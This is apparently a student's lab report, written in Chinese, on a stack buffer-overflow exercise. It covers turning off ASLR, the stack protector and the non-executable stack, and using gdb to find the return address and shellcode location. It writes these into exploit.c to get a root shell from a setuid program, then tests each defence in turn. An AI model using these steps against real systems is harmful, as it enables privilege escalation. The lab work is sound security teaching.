





# 缓存溢出攻击文档

## 准备知识

**关闭地址空间的随机性**

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

**关闭Stack Guard Protection Scheme**

```
gcc -fno-stack-protector example.c
```

**使用Executable Stack**

```bash
gcc -z execstack -o test test.c
# gcc -z noexecstack -o test test.c
```

```bash
sudo gcc -o stack -z execstack -fno-stack-protector stack.c -g
sudo chmod 4755 stack
```

**找到malicious程序的入口与返回地址**

```bash
gdb stack #注意主要在编译stack.c时加上-g符号
b main #设置断点
r #执行
p /x &str #str地址
i r $esp #esp的值

b bof
c #进入bof程序中
p /x &buffer #buffer的地址
i r $ebp
```

使用上述的信息，可以知道malicious程序的位置为`&str+100`或者使用`$esp+100`

返回地址的偏移为`&buffer-$ebp+4`

最终添加到`exploit.c`的内容如下

```cpp
strcpy(buffer+0x18,"\x44\xee\xff\xbf");
strcpy(byffer+400,shellcode);
```

## 实验结果

### Task 1: Exploiting the Vulnerability

准备过程如下

```bash
sudo sysctl -w kernel.randomize_va_space=0
sudo gcc -o stack -z execstack -fno-stack-protector stack.c -g
sudo chmod 4755 stack
gcc -o exploit exploit.c
```



可见攻击成功得到root shell

### Task 2: Address Randomization

```bash
sudo sysctl -w kernel.randomize_va_space=2
sh -c "while [ 1 ]; do ./stack; done;"
```

这样地址随机化之后，需要大概一分钟的运行时间才能成功，





地址随机化是使进程的地址空间随机化，将进程的mmap基址，stack和vdso页面地址在每次运行时不固定。这样一来进程在运行时的地址将变得跟踪困难，并且攻击程序较难获得确切的地址来填入badfile使得跳转到自己攻击的shellcode代码。通过多次运行可以增加地址命中的概率但是也会相应地增加被发现的风险。

### Task 3: Stack Guard

```bash
sysctl -w kernel.randomize_va_space=0
sudo gcc -o stack -z execstack stack.c
sudo chmod u+s stack
./stack
```



执行失败，因为检测到了stack smash，这是Stack Guard起到的作用，当检测到这个违规就会停止执行了。

### Task 4: Non-executable Stack

```
gcc -o stack -fno-stack-protector -z noexecstack stack.c
sudo chmod u+s stack
./stack
```



这是因为当不能在栈内执行程序时，shellcode就不能执行了。

## 实验小结

1. 本实验Task1主要要点是使用gdb追踪程序，并且根据程序的执行期间栈的工作方式来精心设置badfile的内容。需要完成两点，一是malicious程序的入口地址，二是bof程序的返回地址。这两点都可以通过gdb调试得到
2. Task2可能需要挺长时间的，所以可以通过增大buffer和str的大小来提高概率，注意其他的区域都要用NOP填充，而且malicous程序最好放在buffer的最末尾。